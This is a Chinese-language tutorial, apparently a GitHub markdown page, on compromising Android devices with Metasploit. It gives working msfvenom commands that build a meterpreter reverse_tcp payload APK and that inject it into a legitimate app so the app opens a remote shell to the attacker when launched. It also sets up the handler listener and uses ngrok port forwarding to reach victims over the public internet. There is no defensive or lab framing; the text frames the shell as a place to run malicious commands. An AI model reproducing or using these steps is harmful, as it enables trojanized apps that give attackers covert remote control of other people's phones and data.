

# MSF对于安卓的渗透

----

## 内网渗透-生成木马

我们使用`msfconsole`命令进入MSF渗透框架

MSF启动会稍微需要点时间，大概半分钟到一分钟

我们进入MSF后

在`msf6 >_` 终端内输入`show payloads`查看所有攻击载荷

这时，它会弹出一堆攻击载荷，我们回滚到上面，看到第六条

`payload/android/meterpreter/reverse_tcp`

我们使用（use）这个攻击载荷

`use payload/android/meterpreter/reverse_tcp`

之后我们输入`show options`命令查看需要设定的参数

我可以看到我们需要设置的是`LHOST |  LPORT`两个参数

**开始生成木马**

之后我们打开一个普通终端

使用`msfvenom`命令来生成木马

用法如下

`msfvenom -p （你需要的攻击载荷）android/meterpreter/reverse_tcp  （设置参数，譬如） LHOST=你的ip LPORT=随便一个你本机的空闲端口 R > 生成的名字.apk`

我们使用`ifconfig`命令查看自己在局域网内的IP

我们可以看到，我的局域网IP为**192.168.10.114**

所以我们这样填

`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.10.114 LPORT=9999 R > 000.apk`

可见，我们生成成功！

----

## 给一个正常可用的软件植入木马

我们在网络上下载一个可用的app，假设这个apk叫 **nihao.apk**

我们进入存在这个apk的目录下，使用下面的指令

`msfvenom -p android/meterpreter/reverse_tcp -x nihao.apk -i 12 LHOST=192.168.10.114 LPORT=9999 R > 123.apk`

该命令的意思是，将Android/meterpreter/reverse_tcp这个攻击载荷，植入到一个名为nihao.apk的文件里，并执行编码12次，打开软件后，向LHOST这个IP+LPORT这个端口反弹一个Shell，生成出来的文件为123.apk（生成于该目录下）

如果它提示你出错，大概率是因为你没安装apktool（反汇编软件），kali不自带这个软件，所以我们需要使用如下命令来安装

`sudo apt install apktool`

----

## 监听返回的Shell

我们在msfconsole渗透框架内输入

`use exploit/multi/handler`

来载入攻击，之后我们需要设置LHOST与LPORT参数

`set LHOST 上面生成木马使用的LHOST`

`set LPORT 上面生成木马使用的空闲端口`

如下图

之后我们输入`exploit`即可开始监听

当有Shell返回时，它将会返回如下信息代表成功

`meterpreter >_` 

而这里可供你输入恶意命令，我们可以输入help得到每条命令的详细介绍

----

## 公网渗透

**公网而言，不过是一个巨大的局域网罢了**

- [ x ] 使用到ngrok内网穿透

我们安装好ngrok后，使用如下命令转发tcp流量

`./ngrok tcp 9999`

 这个命令就是把你本机127.0.0.1（计算机里，“我”的意思）空闲的9999端口转发到公网

此时等待，ngrok会返回类似这样的东西

绿色代表成功，红色代表超时

`tcp://xxx.nihao.xxx.github.io:12892 => localhost:9999`

其中localhost的意思是就是本机-127.0.0.1的意思

之后我们在msfvenom里生成木马时，LHOST需要填写的则是`xxx.nihao.xxx.github.io`了，而LPORT应该填写的则是`12892`

**但是请注意！**

我们在msf监听返回shell时，我们需要把LHOST设置监听为127.0.0.1，而LPORT则设置为你转发出去的空闲端口，而不是Ngrok提供的IP与端口！！！
